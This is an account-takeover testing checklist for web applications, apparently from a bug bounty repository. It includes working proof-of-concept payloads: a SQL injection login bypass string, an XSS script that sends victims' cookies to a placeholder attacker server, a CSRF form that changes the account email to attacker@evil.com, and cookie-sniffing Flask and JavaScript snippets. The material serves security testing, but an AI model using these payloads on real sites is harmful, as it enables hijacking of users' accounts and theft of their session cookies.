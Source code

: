 ## Account Takeover Checklist

- login:
    - [ ] check if you are able to brute force the password

    - [ ] Test for OAuth misconfigurations

    - [ ] check if you are able to bruteforce the login OTP

    - [ ] check for JWT mesconfigurations

    - [ ] Test for SQL injection to bypass authentication

        ```admin" or 1=1;--```
    - [ ] check if the application validates the OTP or Token

- password reset:
    - [ ] check if you are able to brute force the password reset OTP

    - [ ] test for token predectability

    - [ ] test for JWT misconfigurations

    - [ ] check if the password reset endpoint is vulnerable to IDOR

    - [ ] check if the password reset endpoint is vulnerable to Host Header injection

    - [ ] check if the password reset endpoint is leaking the token or OTP in the HTTP response

    - [ ] check if the application validates the OTP or Token
    
    - [ ] test for HTTP parameter Pollution (HPP)
    

- XSS to Account Takeover
    - [ ] if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password       

    - [ ] try to exfiltrate the cookies

    - [ ] try to exfiltrate the Auth Token

    - [ ] if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies

    - PoC Example:
        ```html
        <script>
            /*
            this script will create a hidden <img> element
            when the browser tries to load the image
            the victim's cookies will be sent to your server
            */

            var new_img = document.createElement('img');
            new_img.src = "http://yourserver/" + document.cookie;
            new_img.style = 'display: none;'
            document.body.appendChild(new_img);
        </script>

        ```

- CSRF to Account Takeover

    - [ ] check if the email update endpoint is vulnerable to CSRF

    - [ ] check if the password change endpoint is vulnerable to CSRF

    - PoC Example:
        ```html
            <html>
                <head>
                    <title>CSRF PoC</title>    
                <head>
                <body>
                    <form name='attack' action='https://example.com/update-email' method='POST'>
                        <input type="hidden" name="new_email" value="attacker@evil.com">
                        <input type="submit" name="submit" value="submit" hidden>
                    <form>
                    <script>
                        document.attack.submit.click()
                    </script>
                </body>
            </html>
        ```

- IDOR to Account Takerover

    - [ ] checck if the email update endpoint is vulnerable to IDOR

    - [ ] check if the password change endpoint is vulnerable to IDOR

    - [ ] check if the password reset endpoint vulnerable to IDOR

- subdomain takeover:
    - [ ] first-order: check if you can takeover xyz.example.com, you can host any malicious code to steal users info or cookies
    - PoC Example
        ```python
        #!/usr/bin/python3
        from flask import *

        app = Flask(__name__)

        @app.route('/')
        def cookie_sniffer():
            for c_name, c_value in request.cookies.items():
                print(c_name + ': ' + c_value)
            return 'Hello, world'
        if __name__ == '__main__':
            app.run(port=80)
        ```
    - [ ] second-order (broken link hijacking): if you found a broken link in a webpage (https://nonexistentlink.com/app.js) and you can takeover this domain, you can host any malicious javascript file and use it to steal users info or cookies
    - PoC Example
        ```javascript
        user_cookies = {
            "cookies": document.cookie
        }

        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "/store-cookies", true);
        xhttp.send(JSON.stringify(user_cookies));
        ```
